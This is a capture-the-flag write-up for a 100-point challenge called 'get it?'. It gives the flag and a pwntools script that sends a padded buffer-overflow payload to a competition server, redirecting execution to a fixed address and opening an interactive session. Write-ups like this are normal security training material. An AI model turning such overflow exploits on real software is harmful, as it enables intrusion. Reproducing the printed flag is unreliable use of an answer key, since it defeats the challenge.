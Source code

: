 # get it?

## Description

- Do you get it?

## Points

- 100

## Flag
- flag{y0u_deF_get_itls}

## Setup

- Make sure that competitors can connect to the challenge


## Solution

- super simple buffer overflow

```python
#!/usr/bin/env python
from pwn import *
#p = process("./get_it")
#p = remote("localhost", 1437)

p = remote("pwn.chal.csaw.io", 9001)
p.recvuntil("??")
p.sendline("A" * 0x28 + p64(0x4005b6))

p.interactive()
```